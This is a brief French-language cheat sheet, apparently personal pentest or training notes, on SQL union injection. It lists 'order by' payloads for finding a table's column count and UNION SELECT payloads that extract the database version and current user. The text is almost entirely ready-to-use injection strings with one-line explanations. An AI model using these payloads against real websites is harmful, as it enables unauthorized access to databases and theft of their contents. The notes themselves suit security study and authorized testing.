 # Union Injection

## Detect number of columns

### Première methode :
' order by 1-- 
' order by 2-- 
...
' order by 4-- 

Si pas d'erreur à 4 et erreur à 5 -> la table contient 4 colonnes

### Seconde méthode :

cn' UNION select 1,2,3,4-- 

Si pas d'erreur -> la table contient 4 colonnes

cn' UNION select 1,@@version,3,4-- 
cn' UNION select 1,user(),3,4-- 

